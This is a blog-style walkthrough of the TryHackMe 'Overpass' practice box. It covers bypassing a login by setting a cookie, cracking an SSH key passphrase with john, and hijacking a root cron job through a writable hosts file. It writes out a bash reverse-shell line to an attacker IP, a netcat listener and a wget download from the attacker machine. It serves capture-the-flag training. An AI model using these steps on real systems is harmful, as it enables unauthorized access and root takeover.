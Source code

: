 ```yaml
---
layout: post
title: " Overpass - TryHackMe"
date: 2020-07-18
excerpt: "Walkthrough for Overpass on TryHackme"
tags: [Overpass, TryHackMe, cron, authentication bypass]
comments: false
---
```


Overpass is an easy difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to root this box.

First, let's scan the box with **nmap -A [machine ip]**.

![Overpass nmap](/assets/img/Overpass1.png)

It appears that SSH and HTTP are the two protocols in use. Let's visit the website and see what shows up there.

![Overpass website](/assets/img/Overpass2.png)

It appears that this is a website for an application that stores your passwords for you. Let's take a look at the Downloads page.

![Overpass Downloads page](/assets/img/Overpass3.png)

This site has both binaries for most OSes and even the source code available for this program. Let's have a look at the source code.

A review of the source code makes a couple of things stand out. The first is that the encryption is done with ROT47, which is trivial to crack (and no where near the "military grade" encryption listed on the main page).

![Overpass source code 1](/assets/img/Overpass4.png)

The second thing that appears further down in the code is that it seems to store the "encrypted" password in the user's home directory with a file named .overpass.

![Overpass source code 2](/assets/img/Overpass5.png)

The About Us page did not seem to have much that was useful, so I decided to run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50** to enumerate the website for hidden directories. Within a few moments, **/admin** showed up.

![Overpass gobuster](/assets/img/Overpass6.png)

Let's take a look at this page and see what's there.

![Overpass website admin](/assets/img/Overpass7.png)

After a few attempts of logging in with common credentials, it appeared that this would either need to be brute forced, or that some other method could be used to bypass authentication. I decided to review the source code of this page.

![Overpass admin source code](/assets/img/Overpass8.png)

In the \<head\> section of this page, there were references to 3 scripts. Let's take a look at the source of login.js to see if we can figure out a weakness in the authentication.

![Overpass login.js source code](/assets/img/Overpass9.png)

It appears that this code takes the credentials you provided and waits for a response from the API to validate your credentials. If validated, it set's a SessionToken cookie and lets you login. However, if they are not correct, it appears to delete the password you supplied and supply you with a message stating Incorrect Credentials.

Based on the fact that the hint said you do not brute force on this box, I opened **Developer Tools**, went to the **Console** tab, and entered **Cookies.set("SessionToken", 200)** and pressed Enter. I selected 200 based on it being the OK status response code for HTTP, but I don't believe it really matters what value is entered.

![Overpass console SessionToken cookie](/assets/img/Overpass10.png)

This created a cookie named **SessionToken**, let's refresh the **/admin** page and see what happens.

![Overpass admin login RSA](/assets/img/Overpass11.png)

Success! We were able to bypass authentication and retrieve a private SSH key. It appears to be for the user  **james** based on the comments above the RSA key. It also suggests cracking the password if we forgot it. Since we don't know it, lets crack it with john.

First, copy everything from **-----BEGIN RSA PRIVATE KEY-----** to **-----END RSA PRIVATE KEY-----** and save it in a file. I saved it as **overpass.txt**.

![Overpass private rsa key](/assets/img/Overpass12.png)

Next, on my attacker PC, I ran **cd /usr/share/john** and ran **python ssh2john.py ~/overpass.txt > ~/overpass.hashes**. This will convert the **overpass.txt** file in my home directory to a hash that john can use to attempt to crack the password.

![Ovverpass ssh2john.py](/assets/img/Overpass13.png)

Next, I navigated back to my home directory with **cd ~** and ran **john overpass.hashes -wordlist=/usr/share/wordlists/rockyou.txt**. Within moments, james' password for his private key has been cracked.

![Overpass crack rsa key password](/assets/img/Overpass14.png)

Now that we have the private key password, let's try to connect to the victim computer. Before doing so, we need to change the permissions on the private key by running **chmod 600 overpass.txt**. Now, run **ssh -i overpass.txt james@[machine ip]**. Enter the password you cracked with john when prompted.

![Overpass james SSH](/assets/img/Overpass15.png)

Success! We are now connected as james. Let's run **ls -al** where you will see the **user.txt** flag. Let's run **cat user.txt** and you will be able to retrieve that flag's value.

![Overpass user.txt](/assets/img/Overpass16.png)

There is also two other interesting files in this folder, **todo.txt** and **.overpass**. Based on the source code you reviewed earlier, you know that **.overpass** is the file that contains credentials in it. Let's run **cat .overpass** to see what's in it. 

![Overpass .overpass](/assets/img/Overpass17.png)

We also know from the source code that ROT47 is used in this file. Let's open up [CyberChef](https://gchq.github.io/CyberChef/) to decrypt this file.

![Overpass cyberchef](/assets/img/Overpass18.png)

We are able to uncover a password for something named **System**, which doesn't seem to mean much as of yet. Let's go back to our victim SSH session and start enumeration. Let's run **sudo -l** and see what comes up. It prompts you for a password. Let's enter the one we just decoded.

![Overpass sudo -l](/assets/img/Overpass19.png)

While this is james' password, he is not a member of the sudoers file so he can't run any sudo commands. Let's copy over linpeas.sh next to do some enumeration. On your attacker PC, navigate to the folder you have this tool saved in and type **python3 -m http.server** to serve up an http server.

![Overpass python3 http server](/assets/img/Overpass20.png)

Next, from james' SSH session, run **wget http://[attacker ip]:8000/linpeas.sh**. Once downloaded, run **chmod +x linpeas.sh** and then **./linpeas.sh** to execute the script.

![Overpass wget linpeas.sh](/assets/img/Overpass21.png)

This will start the enumeration process for this script. It appears that there is a curl job running as root every minute that is running a script to build something in bash.

![Overpass linpeas cronjob](/assets/img/Overpass22.png)

Let's run **cat /etc/crontab** to confirm that this is indeed in the system-wide crontab file.

![Overpass system crontab](/assets/img/Overpass23.png)

It is present, and it looks like it is running a script from a site called overpass.thm. Let's run **ping -c 4 overpass.thm** and see what IP address is returned.

![Overpass ping overpass.thm](/assets/img/Overpass24.png)

It returns the localhost IP. Let's navigate to **cd /etc** and run **ls -al|grep hosts**.

![Overpass /etc/hosts permissions](/assets/img/Overpass25.png)

It appears that this file is misconfigured, as all users have the ability to write to the hosts file. Let's run **nano hosts** and see what is in the file. We are able to open and modify the hosts file's IP addresses. Let's change the entry for **overpass.thm** to your attacker's IP address, so that way it is looking for the buildscript.sh file on your attacker pc.

![Overpass modify /etc/hosts](/assets/img/Overpass26.png)

Next, let's run **ping overpass.thm** to ensure it returns our attacker's IP address.

![Overpass ping overpass.thm](/assets/img/Overpass27.png)

Success, it is now reaching out to your attacker PC over port 80 to attempt to download this file (as port 80 is the default for http). Let's create a new buildscript.sh file to be utilized. First, create a **downloads** folder with a **src** folder inside of it so it mirrors the path that is specified in the cron job (these can be done with **mkdir**). Next, create a **buildscript.sh file** with **!bin/sh** on the first line, and then **bash -i >& /dev/tcp/[attacker ip]4444 0>&1** and save this file.

![Overpass buildscript.sh](/assets/img/Overpass28.png)

Next, open a new terminal tab and run **nc -nvlp 4444** to start a netcat listener to catch the reverse shell from your victim.

![Overpass nc listener](/assets/img/Overpass29.png)

Next, start a new http server over port 80 on the directory above the downloads directory (so that way the cron job looks for your attacker IP/downloads/src/buildscript.sh) with **python3 -m http.server 80**, After a minute, you should see a request on your python http server requesting the script we created. 

![Overpass python3 http server port 80](/assets/img/Overpass30.png)

Once that's done, navigate over to the terminal window with your netcat listener and you should have a reverse shell.

![Overpass nc root reverse shell](/assets/img/Overpass31.png)

We now have a shell as root! This is due to the fact that this job ran as root based on the user listed in the system wide crontab. Let's navigate to root's home directory with **cd /root** and type **cat root.txt** to get the final flag.

![Overpass root.txt](/assets/img/Overpass32.png)